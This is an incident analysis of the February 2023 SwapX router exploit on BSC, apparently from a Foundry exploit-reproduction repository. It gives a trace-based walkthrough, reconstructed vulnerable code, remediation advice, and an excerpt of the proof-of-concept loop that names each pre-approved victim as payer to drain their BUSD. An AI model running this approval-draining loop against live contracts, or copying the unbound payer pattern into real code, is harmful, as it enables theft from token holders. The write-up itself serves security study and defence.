




# SwapX Exploit — Unverified `swapX` Router Drains Pre-Approved Victim BUSD via Caller-Controlled Recipient

> **Vulnerability classes:** vuln/access-control/missing-auth · vuln/logic/missing-validation

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). The fork is served offline from a local
> `anvil_state.json` snapshot (the test's `createSelectFork` points at
> `http://127.0.0.1:8546`). Full verbose trace: [output.txt](output.txt).
> Verified source bundled for context: [Diamond (DND token)](sources/Diamond_34EA3F/src_Diamond.sol),
> [BiswapRouter02](sources/BiswapRouter02_3a6d8c/BiswapRouter02.sol).
> The vulnerable SwapX router (`0x6D898184…`) is **unverified on-chain**, so its
> code below is RECONSTRUCTED from observed trace behaviour and anchored to
> `[output.txt:NNNN]` line refs — it is not verified source.

---

## Key info

| | |
|---|---|
| **Loss** | ~119,481 BUSD drained from 14 victim EOAs (`119,481,398,039,170,502,254,309` wei, summed from the 14 `BUSD::transferFrom` calls in the trace); attacker realizes **386.596681900124632581 WBNB** ([output.txt:7](output.txt)). Original incident reported at ~$1M class across the wider attack set. |
| **Vulnerable contract** | SwapX router — [`0x6D8981847Eb3cc2234179d0F0e72F6b6b2421a01`](https://bscscan.com/address/0x6D8981847Eb3cc2234179d0F0e72F6b6b2421a01#code) (unverified; same mis-coded `swapX` family as LaunchZone) |
| **Victim pools / accounts** | 16 pre-approving EOAs in `victims[]` (14 actually drained; 2 skipped for zero allowance); value routed through the BUSD/WBNB pair `0xaCAac9311b0096E04Dfe96b6D87dec867d3883Dc` and the WBNB/DND pair `0xA6C26b72d76a7BcF663c7A1146cad6bc4Cd6157f` |
| **Attacker EOA** | `ContractTest` itself (`0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` — the PoC contract stands in for the attacker; the live EOA is not named in the PoC header) |
| **Attack tx** | [`0x3ee23c1585474eaa4f976313cafbc09461abb781d263547c8397788c68a00160`](https://bscscan.com/tx/0x3ee23c1585474eaa4f976313cafbc09461abb781d263547c8397788c68a00160) |
| **Chain / block / date** | BSC / block 26,023,088 / Feb 2023 |
| **Compiler** | DND token (Diamond): Solidity **v0.7.6**, optimizer **enabled**, **200 runs**; BiswapRouter02: **v0.6.6**, optimizer enabled, **999,999 runs**; SwapX router: **unverified** (no bytecode source) |
| **Bug class** | Unverified swap-router logic flaw: a multi-hop `swapX` entrypoint debits a **third-party** (caller-nominated) address via `transferFrom` while crediting output to a **caller-controlled** recipient, so anyone with a victim's standing `approve(swapX, …)` can spend the victim's BUSD. |

---

## TL;DR

`SwapX` is a BSC swap router whose `swapX` entrypoint (function selector `0x4f1f05bc`) is **unverified
on BscScan** — the same un-audited implementation family as the LaunchZone incident flagged by
BlockSec and PeckShield. The PoC reverse-engineers its calling convention directly from the calldata
it accepts: `swapX(address[] path, uint256 amountIn, uint256, uint24[] flags, address payer)`.

1. The function performs a multi-hop swap along `path` (here `BUSD → WBNB → DND`), but it pulls the
   `amountIn` of `path[0]` (BUSD) from the **`payer` argument** via `transferFrom`, and it sends the
   final output token (DND) to **`payer` as well**. The caller passes each victim's address as `payer`.
2. Because every victim had previously granted SwapX an unlimited BUSD `allowance`, the attacker — who
   is *not* the `payer` — can iterate `victims[]` and on each call spend that victim's entire BUSD
   balance ([output.txt:65](output.txt), [output.txt:151](output.txt), …,
   [output.txt:1147](output.txt)). 14 victims are drained of a combined **~119,481 BUSD**; the two with
   zero allowance are skipped ([test/SwapX_exp.sol:53-56](test/SwapX_exp.sol#L53-L56)).
3. The drained BUSD is converted BUSD→WBNB in the BUSD/WBNB pair, then WBNB→DND in the WBNB/DND pair,
   sending WBNB **into** the WBNB/DND pair and pulling DND out to the victim. Across 14 hops the
   WBNB/DND pair's WBNB reserve is loaded up from a near-empty `40,728` wei to **~386.6 WBNB**
   ([output.txt:1196](output.txt)).
4. The attacker separately mints itself **1,000,000 DND** for free (`deal`, [test/SwapX_exp.sol:50](test/SwapX_exp.sol#L50)),
   then dumps that 1M DND through the **legitimate** BiswapRouter02 DND→WBNB into the now-WBNB-rich
   pair, pulling out the full **386.596681900124632581 WBNB** ([output.txt:1256](output.txt)).
5. Net: the attacker started with 0 WBNB and ends with **386.60 WBNB**, paid for entirely by the 14
   victims' BUSD that the unverified router let a third party spend. The victims receive DND they never
   asked for; the attacker keeps the WBNB.

---

## Background — what SwapX does

SwapX was a BSC DEX aggregator/router that, like LaunchZone, let users swap along multi-hop paths
through its own deployed Uniswap-V2-style pairs (factory
`0x858E3312ed3A876947EA49d572A7C42DE08af7EE`, pair address computed by the
`0x6d1879F4…52D::pairFor` helper, [output.txt:63](output.txt)). Users had granted the SwapX router
**unlimited token allowances** so it could spend on their behalf — the standard, dangerous DEX
pattern where a single compromised/mis-coded router can drain every approver.

The two pools the attack routes through (both SwapX-family Uniswap-V2 pairs):

| Pool | Address | token0 / token1 | Initial reserves (before attack) |
|---|---|---|---|
| BUSD/WBNB | `0xaCAac9311b0096E04Dfe96b6D87dec867d3883Dc` | BUSD / WBNB | `46,548,517,525,195,980,434,375` BUSD (~46,548) / `14,238,524,926,090,039,238,486,674` WBNB-wei ([output.txt:74](output.txt)) |
| WBNB/DND | `0xA6C26b72d76a7BcF663c7A1146cad6bc4Cd6157f` | DND / WBNB | `743,829,576,378,774,191,792,569` DND-wei (~743.8K DND) / `40,728,631,451,747,453` WBNB-wei (~0.00000004 WBNB) ([output.txt:112](output.txt)) |

`DND` ("Diamond") is the project token — a plain Operator-gated ERC20
([sources/Diamond_34EA3F/src_Diamond.sol](sources/Diamond_34EA3F/src_Diamond.sol)), 18 decimals,
total supply ~10K-7K range with vesting emissions. Its thin WBNB side (essentially dust before the
attack) is what makes the dumped 1M DND so valuable once the victim loop has loaded the pair with WBNB.

The swap math itself is the standard Uniswap-V2 `getAmountOut` with a per-pair `swapFee`
(BiswapRouter02's reference implementation,
[sources/BiswapRouter02_3a6d8c/BiswapRouter02.sol#L296-L303](sources/BiswapRouter02_3a6d8c/BiswapRouter02.sol#L296-L303)):
`out = (amountIn·(1000−fee)·reserveOut) / (reserveIn·1000 + amountIn·(1000−fee))`. The two SwapX pairs
report `swapFee = 2` (BUSD/WBNB, [output.txt:76](output.txt)) and `swapFee = 1` (WBNB/DND,
[output.txt:114](output.txt)). The AMM math is fine; the bug is in the **router** that orchestrates
it, not the pairs.

---

## The vulnerable code

> **RECONSTRUCTED — matches observed on-chain behaviour, not verified source.**
> The SwapX router at `0x6D8981847Eb3cc2234179d0F0e72F6b6b2421a01` is **unverified on BscScan**; no
> source is bundled in `sources/`. The structure below is inferred from the calldata the PoC sends
> (selector `0x4f1f05bc`) and the exact external calls the trace shows it making. Every behaviour is
> anchored to an `[output.txt:NNNN]` line.

### 1. The `swapX` entrypoint debits a caller-nominated `payer` (RECONSTRUCTED)

The PoC encodes the call as
`swapX.call(abi.encodeWithSelector(0x4f1f05bc, swapPath, transferAmount, value, array, victims[i]))`
([test/SwapX_exp.sol:65](test/SwapX_exp.sol#L65)). Decoding the calldata at
[output.txt:58](output.txt) shows the 5-arg signature
`swapX(address[] path, uint256 amountIn, uint256 value, uint24[] flags, address payer)` and, critically,
that the **5th argument is the victim address** (`0x0b70e2Abe6F1A056E23658aED1FF9EF9901CB2A3`). The
trace then shows the router pulling BUSD **from that victim**:

```solidity
// RECONSTRUCTED from output.txt — selector 0x4f1f05bc
function swapX(
    address[] calldata path,
    uint256 amountIn,
    uint256 value,
    uint24[] calldata flags,
    address payer                 // ← caller-controlled; the victim
) external {
    // pulls `amountIn` of path[0] (BUSD) FROM `payer`, using payer's standing allowance
    // observed: BUSD::transferFrom(victim, BUSD/WBNB_pair, amountIn)  [output.txt:65]
    _pullInput(path[0], payer, amountIn);

    // multi-hop swap through the SwapX pairs; output token (DND) sent to `payer`
    // observed: WBNB credited to swapX [output.txt:91], then DND sent to victim [output.txt:118]
    _swapAlongPath(path, amountIn, payer, flags);
}
```

The two load-bearing behaviours, both directly visible in the trace:

- **Input is debited from `payer`** — `BUSD::transferFrom(0x0b70…, 0xaCAac9…, 19479138045270000000000)`
  ([output.txt:65](output.txt)). The router does **not** check that `msg.sender == payer` nor that
  `msg.sender` has any relationship to `payer`. Any caller can name any address as `payer` as long as
  that address has an `allowance` to SwapX.
- **No re-entrancy / per-victim cap** — the function is freely callable in a loop, one call per
  victim, draining each to its (allowance-limited) balance.

### 2. The attacker iterates all pre-approving victims

```solidity
// from test/SwapX_exp.sol (the PoC — verbatim)
for (uint256 i; i < victims.length; ++i) {
    uint256 transferAmount = BUSD.balanceOf(victims[i]);          // drain the victim's whole balance
    if (BUSD.allowance(victims[i], swapX) < transferAmount) {
        transferAmount = BUSD.allowance(victims[i], swapX);       // capped by the standing allowance
        if (transferAmount == 0) continue;                        // skip victims who revoked
    }
    address[] memory swapPath = new address[](3);
    swapPath[0] = address(BUSD);
    swapPath[1] = address(WBNB);
    swapPath[2] = address(DND);
    // ...
    swapX.call(abi.encodeWithSelector(0x4f1f05bc, swapPath, transferAmount, value, array, victims[i]));
}
```
([test/SwapX_exp.sol:51-66](test/SwapX_exp.sol#L51-L66))

Each iteration names a different victim as `payer`. The two victims whose `allowance == 0` are skipped
by the `continue` ([test/SwapX_exp.sol:55](test/SwapX_exp.sol#L55)); the remaining 14 are drained
in full.

### 3. The BiswapRouter02 final dump is a *legitimate* swap (not the bug)

For completeness, the attacker's exit swap uses the verified BiswapRouter02, which is correct
Uniswap-V2 code and is **not** the vulnerability — it is only reachable profitably *because* the victim
loop pre-loaded the WBNB/DND pair with WBNB:

```solidity
// sources/BiswapRouter02_3a6d8c/BiswapRouter02.sol#L716-L729 (verified, legitimate)
function swapExactTokensForTokens(
    uint amountIn, uint amountOutMin, address[] calldata path, address to, uint deadline
) external virtual override ensure(deadline) returns (uint[] memory amounts) {
    amounts = BiswapLibrary.getAmountsOut(factory, amountIn, path);
    require(amounts[amounts.length - 1] >= amountOutMin, 'BiswapV2Router: INSUFFICIENT_OUTPUT_AMOUNT');
    TransferHelper.safeTransferFrom(path[0], msg.sender, BiswapLibrary.pairFor(factory, path[0], path[1]), amounts[0]);
    _swap(amounts, path, to);
}
```

---

## Root cause — why it was possible

A Uniswap-V2-style router is supposed to debit **`msg.sender`** for the input token (via
`transferFrom(msg.sender, pair, amountIn)`). BiswapRouter02 above does exactly this
([sources/BiswapRouter02_3a6d8c/BiswapRouter02.sol#L725-L727](sources/BiswapRouter02_3a6d8c/BiswapRouter02.sol#L725-L727)).
The unverified SwapX `swapX` implementation instead debits a **caller-supplied `payer`** argument
without ever asserting `payer == msg.sender` or requiring the caller to be an authorized relayer. Three
things compose into the loss:

1. **Missing sender/payer binding.** `swapX` trusts the 5th calldata word as the source of funds. There
   is no `require(msg.sender == payer)`, no signature, no off-chain authorization — a pure logic flaw.
2. **Standing unlimited allowances.** Every victim had run `BUSD.approve(swapX, type(uint256).max)`
   (the trace shows allowances like `999,999,999,814,197,824,818,335,294` at
   [output.txt:57](output.txt) and `~5.789e76` at [output.txt:225](output.txt)). With the sender/payer
   binding broken, each of those allowances becomes a license for *anyone* to spend that victim's BUSD.
3. **Output mis-attribution + thin DND pool.** The router routes the stolen BUSD `BUSD→WBNB→DND` and
   sends the DND to the (caller-named) victim. The victims end up holding DND they did not want; the
   WBNB side of the WBNB/DND pair is fattened by all the intermediate WBNB. The attacker, holding free
   DND, then sells into that fattened pair to convert the stolen value into clean WBNB.

This is functionally a **rogue-router / approval-draining** bug: the router was never audited (it is
unverified on BscScan), and the same implementation was reportedly shared with the LaunchZone router,
producing an identical incident the same week.

---

## Preconditions

- **Victims must have a non-zero `BUSD.allowance(victim, swapX)`.** 14 of the 16 victims in the PoC
  list satisfied this; the 2 with zero allowance were skipped
  ([test/SwapX_exp.sol:53-56](test/SwapX_exp.sol#L53-L56)).
- **Victims must hold BUSD.** The drained amount per victim is `min(balance, allowance)`.
- **The attacker needs no upfront capital.** The 1M DND used for the exit dump is self-minted via
  `deal` in the PoC ([test/SwapX_exp.sol:50](test/SwapX_exp.sol#L50)); in the live attack the
  equivalent was a flash-loaned or pre-held DND position.
- **`swapX` (`0x4f1f05bc`) must accept a caller-nominated `payer` with no sender binding** — the core
  unverified-implementation flaw.

---

## Attack walkthrough (with on-chain numbers from the trace)

`token0 = BUSD`, `token1 = WBNB` for the BUSD/WBNB pair; `token0 = DND`, `token1 = WBNB` for the
WBNB/DND pair (so `reserve1` of the WBNB/DND pair is the WBNB side). Every figure is read directly
from the `Sync`/`Swap`/`Transfer` events and `transferFrom` calls in [output.txt](output.txt). Raw wei
given first, human approximation in parentheses.

The 14 victim-draining iterations are mechanically identical (BUSD in from victim → WBNB out to
swapX → WBNB into WBNB/DND pair → DND out to victim). The table shows the first iteration in full,
then the cumulative effect across all 14, then the attacker's exit swap.

| # | Step | BUSD/WBNB pair (BUSD / WBNB) | WBNB/DND pair (DND / WBNB) | Effect |
|---|------|------------------------------|----------------------------|--------|
| 0 | **Initial** (getReserves [output.txt:74](output.txt), [output.txt:112](output.txt)) | 46,548 BUSD / 142,385 WBNB-wei (in 1e18 units: ~0.000142 WBNB reserve is the BUSD-side-wei value; reserves shown raw) | 743,829,576,378,774,191,792,569 DND-wei (~743.8K DND) / 40,728,631,451,747,453 WBNB-wei (~0.00000004 WBNB) | Honest, thin-WBNB DND pool. |
| 1a | **Victim[0] drain** — `BUSD::transferFrom(0x0b70…, pair, 19,479,138,045,270,000,000,000)` (~19,479 BUSD) ([output.txt:65](output.txt)) | BUSD reserve rises by 19,479 BUSD | — | Victim's BUSD pulled by swapX via the victim's allowance. |
| 1b | …BUSD→WBNB swap: `amount1In=19,479 BUSD`, `amount0Out=63,467,089,585,367,471,934` WBNB-wei (~63.47 WBNB) to swapX ([output.txt:91](output.txt)) | Sync: `46,485,050,435,610,612,962,441 / 14,258,004,064,135,309,238,486,674` ([output.txt:90](output.txt)) | — | WBNB credited to swapX. |
| 1c | …WBNB→DND swap: swapX sends the 63.47 WBNB into the WBNB/DND pair, `amount0Out=743,352,068,765,551,299,908,374` DND-wei (~743.4K DND) **to the victim** ([output.txt:117-119](output.txt)) | — | Sync: `477,507,613,222,891,884,195 / 63,507,818,216,819,219,387` ([output.txt:128](output.txt)) (~477.5K DND / 63.5 WBNB) | DND pool loses most of its DND; gains ~63.5 WBNB. |
| 2-14 | **Repeat for the remaining 13 victims**, each time `transferFrom(victim_i, …, victim_i_busd)` ([output.txt:151](output.txt), [:233](output.txt), [:315](output.txt), [:397](output.txt), [:485](output.txt), [:573](output.txt), [:655](output.txt), [:737](output.txt), [:819](output.txt), [:901](output.txt), [:983](output.txt), [:1065](output.txt), [:1147](output.txt)) | BUSD reserve climbs steadily as victims' BUSD flows in | WBNB reserve climbs each hop; DND reserve shrinks | 14 victims drained of **119,481,398,039,170,502,254,309 BUSD-wei (~119,481 BUSD)** total. After the last victim the WBNB/DND pair holds **386,627,082,897,768,527,596 WBNB-wei (~386.6 WBNB)** ([output.txt:1196](output.txt), [output.txt:1227](output.txt)). |
| 15 | **Exit dump** — attacker sells 1,000,000 DND via BiswapRouter02 `swapExactTokensForTokens` DND→WBNB ([output.txt:1225](output.txt)): `amount0In=1,000,000 DND`, `amount1Out=386,596,681,900,124,632,581 WBNB-wei (~386.60 WBNB)` to the attacker ([output.txt:1256](output.txt)) | — | After: `1,000,007,855,886,526,749,139,404,2 DND / 30,400,997,643,895,015 WBNB-wei` ([output.txt:1255](output.txt)) (~1M DND / ~0.00003 WBNB) | WBNB side drained; attacker holds 386.60 WBNB. |

Note the per-victim DND payout collapses over the loop (743.4K DND for victim[0] down to ~2.49K DND
for victim[13], [output.txt:1209](output.txt)) because the DND reserve is being depleted while WBNB
flows in — exactly the AMM repricing you'd expect. The victims collectively receive a large but
near-worthless DND position; the attacker converts the loaded WBNB into clean WBNB.

### Profit / loss accounting (WBNB, raw wei)

| Direction | Amount (wei) | ~Human |
|---|---:|---:|
| Attacker WBNB before attack | 0 | 0 |
| Attacker WBNB after exit dump | 386,596,681,900,124,632,581 | 386.596681900124632581 |
| **Attacker net profit** (asserted in PoC log, [output.txt:7](output.txt)) | **386,596,681,900,124,632,581** | **386.60 WBNB** |
| Sum of 14 victims' BUSD drained (`transferFrom` totals) | 119,481,398,039,170,502,254,309 | ~119,481.40 BUSD |

The attacker's WBNB profit is the BUSD the victims lost, converted through the two pools (minus AMM
fees and the DND price slippage the victims' involuntary DND buys imposed). The PoC asserts the final
balance exactly: `Attacker WBNB balance after exploit: 386.596681900124632581`
([output.txt:7](output.txt)).

---

## Diagrams

### Sequence of the attack



### Pool state evolution (WBNB/DND pair — the value accumulator)



### The flaw inside `swapX` (RECONSTRUCTED)



### Why a thin-DND-pool + loaded-WBNB-pool converts to attacker profit



---

## Why each magic number

- **`1_000_000 * 1e18` DND dealt to the attacker** ([test/SwapX_exp.sol:50](test/SwapX_exp.sol#L50)):
  the exit-swap input. In the PoC it is a free `deal` mint; live, it was a flash-loaned or pre-held
  DND position. It is sized large enough that, dumped into the WBNB-loaded pair, it pulls essentially
  the entire ~386.6 WBNB reserve out ([output.txt:1256](output.txt)).
- **`swapPath = [BUSD, WBNB, DND]`** ([test/SwapX_exp.sol:57-60](test/SwapX_exp.sol#L57-L60)): routes
  each victim's BUSD through WBNB into DND. The DND leg is what pushes WBNB **into** the WBNB/DND pair
  (the attacker does not want the DND; the victim gets stuck with it).
- **`transferAmount = min(BUSD.balanceOf(victim), BUSD.allowance(victim, swapX))`**
  ([test/SwapX_exp.sol:52-56](test/SwapX_exp.sol#L52-L56)): drains each victim to the limit of their
  standing allowance. Two victims hit `allowance == 0` and are skipped.
- **`array[0] = 65_536` and `array[11] = 257`** ([test/SwapX_exp.sol:62-64](test/SwapX_exp.sol#L62-L64)):
  the `uint24[] flags` blob passed to `swapX`. These are router-internal hop/fee flags decoded by the
  unverified implementation; their exact meaning is not recoverable without the source, but the trace
  shows the call succeeds with them and produces the expected swaps.
- **`value = 0`** ([test/SwapX_exp.sol:61](test/SwapX_exp.sol#L61)): no native BNB is sent; the swap is
  purely ERC20-funded from the victims' BUSD.
- **Final dump `amountOutMin = 0`** ([test/SwapX_exp.sol:80](test/SwapX_exp.sol#L80)): the attacker
  accepts any WBNB output (no slippage protection needed — it is pure profit).

---

## Remediation

1. **Bind the input source to `msg.sender`.** A router must `transferFrom(msg.sender, …)` for the input
   token, never a caller-supplied `payer` address unless the caller is a verifiable authorized relayer
   (e.g. via EIP-712 signature from `payer`). The single `require(msg.sender == payer, …)` (or removing
   the `payer` arg entirely) closes the bug.
2. **Verify and audit router bytecode before deployment, and re-verify on every upgrade.** SwapX's
   router was unverified on BscScan — no one could audit it. Timelock + multisig-gated upgrades with
   published source would have forced review.
3. **Enforce a swap-output invariant: `out ≤ fee-corrected AMM output`.** Any router hop that returns
   more (or routes value to a non-caller) than the AMM math allows should revert.
4. **Revoke blanket `approve(router, type(uint256).max)` allowances.** The damage was amplified
   14×-fold because every victim had granted unlimited BUSD approval to the shared router. Prefer
   per-trade `permit`/signed approvals, or tight allowlist-only routers, and rotate approvals when a
   router is suspected compromised.
5. **Add per-payer rate limiting / circuit breakers** on aggregate `transferFrom` volume within a block,
   so a single tx cannot drain 14 accounts even if the sender/payer binding is broken.

---

## How to reproduce

The PoC runs offline via the shared harness, forking the locally-cached `anvil_state.json` at BSC
block 26,023,088 (no public RPC is hit — `createSelectFork("http://127.0.0.1:8546", 26_023_088)`,
[test/SwapX_exp.sol:41](test/SwapX_exp.sol#L41); `foundry.toml` sets `evm_version = 'cancun'`):

```bash
_shared/run_poc.sh 2023-02-SwapX_exp --mt testExploit -vvvvv
```

- The `--mt testExploit` matches the actual test function `function testExploit()`
  ([test/SwapX_exp.sol:49](test/SwapX_exp.sol#L49)).
- The fork serves historical BSC state from the local anvil snapshot; no external archive RPC is
  required for this run.
- Expected result: `[PASS] testExploit()` with the attacker's final WBNB balance logged.

Expected tail ([output.txt:4-7](output.txt)):

```
Ran 1 test for test/SwapX_exp.sol:ContractTest
[PASS] testExploit() (gas: 2181137)
Logs:
  Attacker WBNB balance after exploit: 386.596681900124632581
```

---

*Reference: BlockSec — https://twitter.com/BlockSecTeam/status/1630111965942018049 ; PeckShield — https://twitter.com/peckshield/status/1630100506319413250 (SwapX / LaunchZone unverified-router swap flaw, BSC, Feb 2023).*
